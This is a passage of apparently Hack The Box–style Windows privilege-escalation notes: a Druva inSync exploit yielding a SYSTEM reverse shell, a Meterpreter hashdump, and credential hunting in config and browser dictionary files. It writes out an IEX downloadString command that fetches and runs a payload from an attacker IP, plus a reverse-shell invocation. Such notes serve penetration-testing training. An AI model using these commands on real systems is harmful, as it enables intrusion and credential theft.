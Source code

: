 We will get an error trying to start the service but will still receive a callback once the Meterpreter binary executes.

```shell-session
meterpreter > hashdump
```


### Vulnerable Services

Enumeration -> System Information -> Installed Programs

#### Druva inSync Windows Client Local Privilege Escalation Example

For our purposes, we want to modify the `$cmd` variable to our desired command. Let's try this with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script to our attack box, and rename it something simple like `shell.ps1`. 

Open the file, and append the following at the bottom of the script file (changing the IP to match our address and listening port as well):

```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

Finally, start a `Netcat` listener on the attack box and execute the PoC PowerShell script on the target host (after [modifying the PowerShell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy) with a command such as `Set-ExecutionPolicy Bypass -Scope Process`). We will get a reverse shell connection back with `SYSTEM` privileges if all goes to plan.

### DLL Injection

For another day..

## **Credential Hunting**

### Application Configuration Files

```powershell
PS C:\htb> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

Sensitive IIS information such as credentials may be stored in a `web.config` file. For the default IIS website, this could be located at `C:\inetpub\wwwroot\web.config`, but there may be multiple versions of this file in different locations, which we can search for recursively.
#### Dictionary Files

```powershell
PS C:\htb> gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```
#### Unattended Installation Files
